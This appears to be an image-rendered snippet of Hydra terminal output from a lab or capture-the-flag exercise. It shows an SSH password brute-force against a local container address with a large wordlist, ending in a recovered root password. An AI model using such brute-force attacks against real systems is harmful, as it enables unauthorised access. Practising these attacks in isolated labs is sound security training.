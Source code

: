 ```ruby
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-08 21:48:26
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: root   password: estrella
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-08 21:48:28
```

